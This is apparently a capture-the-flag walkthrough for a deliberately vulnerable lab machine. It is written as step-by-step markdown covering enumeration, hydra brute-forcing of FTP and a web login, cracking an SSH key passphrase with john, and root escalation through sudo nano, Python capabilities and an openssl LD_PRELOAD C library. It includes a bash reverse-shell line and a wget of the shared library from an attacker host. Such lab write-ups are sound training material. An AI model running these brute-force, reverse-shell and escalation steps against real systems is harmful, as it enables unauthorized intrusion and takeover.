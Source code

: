 # KOTH HACKERS<br />

-------------
## IP: `10.10.228.111`<br />

----------------------
### Open Ports Via Nmap -<br />

`nmap -sC -sV 10.10.228.1115`

```
21
22
80
9999
```

![image](images/nmap.png)

----------------------
#### Subdirectories Via Gobuster -<br />

```
/news
/contact
/img
/staff
/backdoor
```

![image](images/gobuster.png)

----------------------
##### Login via ftp `anonymously` - <br />

> We'll get a note, which will give us usernames to brute-force (:

![image](images/anon.png)


> When we cat that note, we get-<br/>

![image](images/note.png)

------------------------
##### Gcrawford Credentials Via Hydra -<br/>

```
hydra -l gcrawford -P /usr/share/wordlists/rockyou.txt 10.10.228.111 ftp
```
![image](images/gcrawford.png)


username: gcrawford<br />
password: PAOLA<br />

> Login via ftp using these creds

![image](images/gcrawftp.png)

`We got id_rsa of gcrawford user from cd /.ssh/id_rsa`

> Since it's a protected private key we need to crack the passphrase for `id_rsa` of gcrawford using JohnTheRipper<br />

`ssh2john id_rsa > forjohn`

`john forjohn --wordlist=/usr/share/wordlists/rockyou.txt`

> We Got The Pass For Private Key

![image](images/john.png)


```
id_rsa:25192519 
```

`login via gcrawford using id_rsa`

```
ssh -i id_rsa gcrawford@10.10.228.111
```

##### privilege escalation of `gcrawford` user cuz of sudo ability over `nano`<br/>

`sudo -l`

We can see nano's [Gtfo-Bins](https://gtfobins.github.io/gtfobins/nano/)

```
sudo nano
^R^X
reset; sh 1>&0 2>&0
```

------------------------
##### Rcampbell Credentials Via Hydra -<br />

```
hydra -l rcampbell -P /usr/share/wordlists/rockyou.txt 10.10.228.111 ftp
``` 

![image](images/rcampbell.png)

username: rcampbell<br />
password: molly<br />

###### Login via ftp using rcampbell credentials -<br/>

`ftp 10.10.228.111`

![image](images/ftp.png)

##### Login via ssh with rcampbell with the same password of this user for ftp and search for `capabilities`<br />

```
getcap -r / 2>/dev/null
```
![image](images/capabilities.png)


> Now to get root, we can do -<br/>

```
python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'
```
![image](images/rcamp.png)

##### Crack the password for [backdoor](http://10.10.228.111/backdoor)<br />

![image](images/backdoor.png)


```
hydra -l plague -P /usr/share/wordlists/rockyou.txt 10.10.228.111 http-post-form "/api/login:username=^USER^&password=^PASS^:Incorrect" -IV
```
![image](images/plague.png)


username: plague<br />
password: twentyone<br />

> start a net-cat listener on your machine, and we can get a rev-shell using -<br/>

`nc -lnvp <port>`<br/>

```
bash -i >& /dev/tcp/<ip>/<port> 0>&1
```
![image](images/bash.png)

 ![image](images/nc.png)


##### You can get a rev shell with user `production` logged in and can achieve privilage escalation using this c code -<br />

First, let's try to check for `sudo abilities` of user production by running command:<br />

`sudo -l`<br />

![image](images/productionSudo.png)

We see `openssl` in sudo list, we can abuse it to get root let's check [Gtfo-Bins For Openssl And How To Use It To Load Shared Libraries](https://gtfobins.github.io/gtfobins/openssl/#library-load)

Check out this blog for more on it [ld_preload-privesc](https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/)<br />

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
```

`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`<br/>

![image](images/gcc.png)

> start a python server and transfer the shell.so to machine<br/>

`python3 -m http.server 80`<br/>

`wget <ip>/shell.so`<br/>

`chmod +x shell.so`<br/>

```
sudo openssl req -engine ./shell.so
```
![image](images/openssl.png)